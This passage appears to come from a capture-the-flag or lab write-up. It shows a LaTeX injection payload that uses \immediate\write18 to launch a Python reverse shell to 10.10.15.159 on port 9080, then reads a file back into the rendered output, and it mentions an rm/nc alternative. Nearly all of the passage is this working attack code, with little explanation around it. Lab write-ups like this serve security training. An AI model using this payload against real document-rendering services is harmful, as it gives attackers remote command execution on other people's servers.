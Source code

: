 6)i used python to get a rshell. 0xdf used rm/nc

### python reverse shell -- success

```
content=\immediate\write18{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.159",9080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > chickenp.sh|base64 > chickenp.sh}

\newread\file

\openin\file=chickenp.sh

\loop\unless\ifeof\file

\read\file to\fileline

\text{\fileline}

\repeat

\closein\file

Run1

&template=test3
```

![shell](shell.PNG)
